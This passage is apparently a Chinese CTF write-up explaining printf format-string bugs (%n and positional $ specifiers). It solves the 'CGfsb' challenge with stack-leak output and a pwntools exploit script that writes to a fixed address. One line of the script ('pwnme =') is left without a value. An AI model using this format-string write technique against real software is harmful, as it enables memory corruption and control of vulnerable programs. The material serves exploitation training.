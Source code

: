 %85c%7$n ，作用是将 85 写入栈内第 7 个参数所指向的地址。

在 printf 中，使用 `*<a_number_of_chars>%<number>$n*` 就可以将相应的第 `*<number>*` 个参数的位置写为 % 前输出的字符数量

如本题先用 %85c 输出了 85 个字符，再用 %7$n 将第七个参数的位置写成了 85

#### $的作用

Linux 下, x$指栈第x个参数的地址, 下面2$指第 2 个地址, $1 指第一个地址. 即输出 2, 3

```c
    int a = 3, b = 2;
    printf("%2$d %1$d", a, b);
```

#### 示例 CGfsb

通常 2 次输入

    1.1111
    2.输入 aaaa-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
    aaaa-ffffd22e-f7fb4580-00000001-00000000-00000001-f7ffd940-31310001-000a3131-00000000-61616161-3830252d-30252d78
    ***1-*******2-*******3-*******4-*******5-*******6-*******7-*******8-*******9-******10-*'1111'*

偏移是 10, 拖动调试。第二次 printf 处下断点。

    payload = flat(p32(0x0804A068), 'a'*4 ,'%10$n')
    send(payload)后

x/16wx $esp # 查看栈情况

    fff2a488 fff2a47e f7f47580 00000001 00000000 00000001 f7f90940 61610001 000a6161 00000000 0804a068 61616161
    ******01 ******02 ******03 ******04 ******05 ******06 ******07 ******08 ******09 ******10 ******11 ***aaaa*

exp:

```python
from pwn import *
context.log_level = 'debug'
conn = process('./e41a0f684d0e497f87bb309f91737e4d')
# conn = remote("220.249.52.133",56225)
pwnme =
payload1 = 'aaaa'
payload2 = flat(p32(pwnme), 'a'*4 ,'%10$n')  #pwnme地址占4个字节，所以后面需要打印4个a
conn.recvuntil('please tell me your name:')
conn.sendline(payload1)
# gdb.attach(conn)
conn.recvuntil('leave your message please:')
conn.sendline(payload2)
conn.interactive()
print(conn.recvall())
```

#### 参数说明
